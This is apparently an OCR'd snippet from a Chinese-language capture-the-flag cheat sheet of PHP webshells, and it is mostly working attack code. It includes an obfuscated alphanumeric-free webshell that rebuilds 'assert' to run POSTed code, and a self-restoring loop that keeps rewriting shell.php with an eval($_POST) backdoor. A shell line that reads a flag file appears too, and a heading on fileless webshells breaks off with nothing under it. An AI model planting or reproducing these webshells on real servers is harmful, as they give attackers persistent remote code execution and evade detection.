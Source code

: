 ```php
$___($_[_]);// assert($_POST[_]);

// 无英文数字的webshell 7
<?php
    @$_=[].'';
    @$___=$_[''];
    $_=$___;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
    $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
    $___.=$__;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$___.=$__;
    $__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
    $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;
    $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
    $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;
    $____='_';$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
    $__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;
    $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
    $__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;
    $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
    $__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;
    $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
    $__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$_=$$____;
    @$___($_[_]);// assert($_POST[_]);
?>


A=fl;B=ag;cat $A$B

```

## webshell 内存驻留

解法：restart
```php
<?php
    ignore_user_abort(true);  // 忽略连线中断
    set_time_limit(0);  // 设定无执行时间上限
    $file = 'shell.php';
    $code = '<?php eval($_POST[a]);?>';
    while(md5(file_get_contents($file)) !== md5($code)) {
        if(!file_exists($file)) {
            file_put_contents($file, $code);
        }
        usleep(50);
    }
?>

```

## 无文件webshell
